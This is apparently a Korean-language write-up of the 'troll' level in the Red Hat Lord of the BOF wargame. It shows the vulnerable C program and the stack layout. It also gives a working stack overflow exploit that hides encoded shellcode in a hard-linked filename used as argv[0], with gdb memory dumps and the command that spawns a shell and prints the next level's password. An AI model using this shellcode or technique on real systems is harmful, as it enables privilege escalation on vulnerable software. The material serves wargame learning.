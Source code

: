 ============================================================================================================
[redhat-lob] (8) troll
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1] value"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[0] address"];
    }

|

Source Code
============================================================================================================

.. code-block:: c

	#include <stdio.h>
	#include <stdlib.h>

	extern char **environ;

	main(int argc, char *argv[])
	{
		char buffer[40];
		int i;

		// here is changed
		if(argc != 2){
			printf("argc must be two!\n");
			exit(0);
		}

		// egghunter
		for(i=0; environ[i]; i++)
			memset(environ[i], 0, strlen(environ[i]));

		if(argv[1][47] != '\xbf')
		{
			printf("stack is still your friend.\n");
			exit(0);
		}

		// check the length of argument
		if(strlen(argv[1]) > 48){
			printf("argument is too long!\n");
			exit(0);
		}

		strcpy(buffer, argv[1]);
		printf("%s\n", buffer);

		// buffer hunter
		memset(buffer, 0, 40);

		// one more!
		memset(argv[1], 0, strlen(argv[1]));
	}


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

	================
	LOW     
	----------------
	Buffer  (40byte)
	SFP     (4byte)
	RET     (4byte)  <- strcpy overflow
	argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
	----------------
	HIGH    
	================


|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1] 값의 47번째 문자가 "\\xbf"이어야 함
- argv[1] 값의 길이가 48 미만 이어야 함
- argv[1] 값을 초기화하여 argv[1] 주소로 버퍼오버플로우를 진행할 수 없다.


.. code-block:: console

	※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2

	$ ./troll `python -c 'print "a"*47'`
	stack is still your friend.

	$ ./troll `python -c 'print "a"*47+"\xbf"'`
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
	Segmentation fault




|

exploit
============================================================================================================

기존 문제와 달리 argv[1] 값을 초기화 해버리기 때문에 argv[1] 주소로 버퍼오버플로우를 진행할 수 없음.
argv[0] 값에 쉘코드를 삽입하고, RET 주소를 argv[0] 주소로 변경하여야 한다.

argv[0] 값에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 "\\x2f" 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않는다.

"\\x2f"가 없는 쉘코드로 파일명을 생성하도록 한다.

.. code-block:: console
	
	$ ln troll `python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'`
	$ ls
	troll
	troll.c    
	????????????????????????????????????????????????????????????????????????????????????????????????????▒▒▒t$▒?▒i▒])ɱ?1E??E??▒?▒▒b??|?G?▒Rp▒▒??8{▒?Q??▒▒??-▒ѶO?▒▒▒4@▒QM▒?▒
	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` a

	stack is still your friend.


앞의 조건에 argv[1] 값을  초기화하기 때문에, gdb를 이용하여 argv[0] 주소를 찾는다.

.. code-block:: console

	(gdb) b *main
	Breakpoint 1 at 0x8048500

	(gdb) r `python -c 'print "a"*47+"\xbf"'`
	Starting program: /home/orge/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒t$▒▒i▒])ɱ
							  1EE▒▒▒▒b▒▒|G▒▒Rp▒▒8{▒Q▒▒▒▒-▒ѶO▒▒▒▒4@▒QM▒▒▒ `python -c 'print "a"*47+"\xbf"'`
	/bin/bash: /home/goblin/.bashrc: Permission denied

	Breakpoint 1, 0x8048500 in main ()

	(gdb) stepi
	0x8048501 in main ()    

	(gdb) i reg $esp
	esp            0xbffff9a8       -1073743448

	(gdb) i reg $ebp
	ebp            0xbffff9c8       -1073743416

	(gdb) x/100x $esp

	==========================================================================
	0xbffff9a8:     0xbffff9c8      0x400309cb      0x00000002      0xbffff9f4
	0xbffff9b8:     0xbffffa00      0x40013868      0x00000002      0x08048450
	0xbffff9c8:     0x00000000      0x08048471      0x08048500      0x00000002
	0xbffff9d8:     0xbffff9f4      0x08048390      0x0804866c      0x4000ae60
	0xbffff9e8:     0xbffff9ec      0x40013e90      0x00000002      0xbffffae7
	0xbffff9f8:     0xbffffb9d      0x00000000      0xbffffbce      0xbffffbf0
	0xbffffa08:     0xbffffbfa      0xbffffc08      0xbffffc27      0xbffffc34
	0xbffffa18:     0xbffffc4d      0xbffffc69      0xbffffc88      0xbffffc93
	0xbffffa28:     0xbffffca1      0xbffffce3      0xbffffcf3      0xbffffd08
	0xbffffa38:     0xbffffd18      0xbffffd22      0xbffffd40      0xbffffd4b
	0xbffffa48:     0xbffffd5c      0xbffffd6b      0xbffffd7a      0xbffffd83
	0xbffffa58:     0x00000000      0x00000003      0x08048034      0x00000004
	0xbffffa68:     0x00000020      0x00000005      0x00000006      0x00000006
	0xbffffa78:     0x00001000      0x00000007      0x40000000      0x00000008
	0xbffffa88:     0x00000000      0x00000009      0x08048450      0x0000000b
	0xbffffa98:     0x000001fb      0x0000000c      0x000001fb      0x0000000d
	0xbffffaa8:     0x000001fb      0x0000000e      0x000001fb      0x00000010
	0xbffffab8:     0x0fabfbff      0x0000000f      0xbffffae2      0x00000000
	0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffad8:     0x00000000      0x00000000      0x36690000      0x2f003638
	0xbffffae8:     0x656d6f68      0x67726f2f      0x90902f65      0x90909090
	0xbffffaf8:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb08:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb18:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb28:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb38:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb48:     0x90909090      0x90909090      0x90909090      0xc5d99090
	0xbffffb58:     0xf42474d9      0x69c315b8      0xc9295dd7      0x45310bb1
	0xbffffb68:     0x1a45031a      0xe204c583      0x8f62a9e0      0x47137c93
	0xbffffb78:     0x7052e38e      0x1717ccb8      0x85f77b38      0xa98e1551
	0xbffffb88:     0x2d9801f3      0x4fb6d1f3      0xfce7bf9a      0x51af4034
	0xbffffb98:     0xd682a14d      0x61616100      0x61616161      0x61616161
                                          ^               ^               ^	
	0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^               ^
	0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^ argv[0] = 0xbffffbbf
	==========================================================================

|

RET 주소를 argv[0] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*40
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- argv[0] 주소
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================

|

오버플로우시 RET address를 argv[0] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. argv[0] 주소의 최초 주소 값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

filename : nop (100 byte) + shellcode (70 byte) 

argv[1] : nop (19 byte) + shellcode (25 byte) + argv[0] address



.. code-block:: console

	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` `python -c 'print "\x90"*44 + "\xbf\xfb\xff\xbf"'`
	▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
										   ̀▒▒▒▒

	bash$ whoami
	troll
	bash$ my-pass
	euid = 508
	aspirin
